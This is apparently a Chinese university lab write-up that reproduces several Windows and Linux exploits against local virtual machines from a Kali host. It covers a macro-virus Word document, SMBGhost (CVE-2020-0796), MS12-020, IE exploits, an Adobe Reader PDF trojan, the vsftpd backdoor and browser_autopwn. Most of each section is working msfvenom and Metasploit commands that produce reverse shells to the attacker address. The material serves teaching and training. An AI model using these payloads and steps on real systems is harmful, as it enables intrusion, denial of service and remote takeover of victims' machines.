西工大网络空间实战攻防能力训练（Actual Combat Ability Training of Cybersecurity Offense-defense Confrontation）系列实验
利用宏病毒感染 Word 文档获取 shell 复现
- 受害机 Win7 IP：192.168.186.134
- 攻击机 Kali IP：192.168.186.129
实验环境准备
Office 安装包解压，打开 setup.exe，输入密钥：

之后按照默认选项一路安装下去即可。在下图路径中找到 Word 应用程序。

实施攻击
生成携带宏病毒的 Word 文档：
1 | msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.186.129 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe |
获得了两部分内容，第一部分为宏代码：

第二部分为要填入文档中的内容 Payload data：

打开 Word 创建新文档，创建宏，宏的名称任意填写即可：

使用刚才获取到的宏代码替换默认内容：

在文档中粘贴第二部分 Payload data：

最后保存。
启动 Metasploit 开启 Shell 监听会话，选择 handler 监听模块，开启监听。
依次输入下列命令进行模块选取、选项配置和发起攻击：
1 | use exploit/multi/handler |

打开刚才的文档，再回到 Kali，即可获取会话：


成功获取 Shell。
实现 CVE-2020-0796 永恒之黑漏洞利用
- 受害机 Win10 IP：192.168.186.137
- 攻击机 Kali IP：192.168.186.129
实验环境准备
查看 CVE-2020-0796 所影响的操作系统版本：

在 MSDN 中下载能受到影响的 Win10 版本：

按照默认流程安装虚拟机，注意需要为 Win10 分配较大的内存（反正 2GB 不行）：

打开 Win10，在开始→设置→更新和安全→Windows 安全中心中，关闭“病毒和威胁防护”和“防火墙和网络保护”中的所有保护选项：

在设置中关闭 Win10 更新：

验证漏洞存在
- 使用 SMBGhost：
从 GitHub 上下载 SMBGhost，解压并进入项目文件夹下，打开终端并执行如下命令：
1 | python3 scanner.py 192.168.186.137 # 受害机 IP |

如上图，显示 Vulnerable 表明目标主机存在 CVE-2020-0796 永恒之黑漏洞。
- 使用 CVE-2020-0796-PoC：
从 GitHub 上下载 CVE-2020-0796-PoC，解压并进入项目文件夹下，打开终端并执行如下命令：
1 | ./CVE-2020-0796.py 192.168.186.137 # 受害机 IP |


如上图，目标主机蓝屏重启，说明存在永恒之黑漏洞。
实施攻击
从 GitHub 上下载 SMBGhost_RCE_PoC 工具。
使用 MSF 生成 exp 反弹 shell，设置监听的端口为 5555：
1 | msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.186.129 LPORT=5555 -b '\x00' -i 1 -f python > payload.py # LHOST 为攻击机 IP |

将工具中 exploit.py 中的 USER_PAYLOAD 部分替换成 payload.py 文件中 buf 的内容：

选择 handler 监听模块设置监听：
1 | msfconsole |

运行刚才修改过的 exploit.py，执行攻击：
1 | python3 exploit.py -ip 192.168.186.137 # 受害机 IP |

返回 MSF，可以看到监听端口成功反弹 Shell。

攻击成功。
实现 Microsoft Windows 远程溢出漏洞 CVE-2012-0002 利用
- 受害机 Win7 IP：192.168.186.134（Win XP 中没有远程桌面）
- 攻击机 Kali IP：192.168.186.129
漏洞扫描
使用 nmap 扫描 3389 端口是否开放：
1 | nmap -n -p 3389 192.168.186.134 --open |

使用 Nessus 扫描到 CVE-2012-0002（MS12-020）漏洞存在：

实施攻击
搜索 Metasploit 中可利用的模块：
1 | msfconsole |

使用 ms12_020_maxchannelids 模块，进行配置：
1 | use auxiliary/dos/windows/rdp/ms12_020_maxchannelids |

攻击结果如下，Win7 蓝屏重启：


攻击成功。
实现 MS11-003（CVE-2001-0036）漏洞利用
- 受害机 Win7 IP：192.168.186.134
- 攻击机 Kali IP：192.168.186.129
搜索并利用 ms11_003_ie_css_import 模块：
1 | msfconsole |

1 | use exploit/windows/browser/ms11_003_ie_css_import |

使用 baidu.com 的 URI 生成恶意的网页链接：
1 | set srvhost 192.168.186.129 |

在 Win7 浏览器上访问恶意网页 http://192.168.186.129:8080/baidu.com：

返回 Kali 查看，成功建立会话：

1 | sessions # 查看所有会话 |
成功获取 Shell：


攻击成功。
实现 IE 浏览器的极光漏洞利用
- 受害机 Win7 IP：192.168.186.134
- 攻击机 Kali IP：192.168.186.129
搜索、选用 ms10_002_aurora 模块，进行配置和攻击：
1 | msfconsole |

1 | use windows/browser/ms10_002_aurora |


成功生成恶意网页。在 Win7 上访问恶意网页 http://192.168.186.129:8080/otto.com：

返回 Kali，发现获取到会话，成功获取 Shell：
1 | sessions |


攻击成功。
实现 Adobe Reader 9 漏洞利用
- 受害机 Win XP IP：192.168.186.135
- 攻击机 Kali IP：192.168.186.129
打开安装包安装 Adobe Reader 9。Kali 中启动 MSF，加载漏洞模块：
1 | msfconsole |

设置 PDF 木马文件名，该文件将生成在 /root/.msf4/local/ 目录下：
1 | set filename wangyuan.pdf |

启动 MSF，进行监听：
1 | use exploit/multi/handler |
将生成的 PDF 木马文件复制到 Win XP，并打开：

Adobe reader 可能会卡壳退出，需要切换进程。

回到 Kali，获取到 Shell，攻击成功。
渗透攻击 Metasploitable 的 Vsftpd 源码包后门漏洞
- 受害机 Metasploitable IP：192.168.186.136
- 攻击机 Kali IP：192.168.186.129
选择 vsftpd_234_backdoor 模块，配置并实施攻击：
1 | msfconsole |

1 | use exploit/unix/ftp/vsftpd_234_backdoor |

成功连接会话。验证：
1 | uname -a |

攻击成功。
使用 browser_autopwn 模块渗透攻击浏览器
- 受害机 Win XP IP：192.168.186.135
- 攻击机 Kali IP：192.168.186.129
browser_autopwn
选用 browser_autopwn 模块进行攻击：
1 | msfconsole |

攻击配置：
1 | set payload windows/meterpreter/reverse_tcp |
这里可以看到找到了 20 个攻击模块：
在 Win XP 的 IE 浏览器中打开恶意链接：http://192.168.186.129:8080/114514，此时 Metasploit 会显示有 14 个攻击模块的响应，还剩下一些攻击模块并未被利用，同时并没有建立任何会话：
逐一尝试剩下的 6 个模块，发现 msxml_get_definition_code_exec 模块生成的恶意链接有效：
打开 http://192.168.186.129:8080/RFZAopJk，浏览器会很快闪退：
返回 Kali，此时已建立会话连接：
成功获取 Shell：
1 | sessions |
browser_autopwn2
1 | search autopwn |
在浏览器中多次尝试访问 http://192.168.186.129:8080/114514，
并返回 Kali 中查看是否建立会话：
攻击成功。
彩蛋
- 彩蛋图片：
- 作者：大熊まい◆MaiOkuma twi@m_okuma0831，pid：29449
- 来源：Lost Word Game Files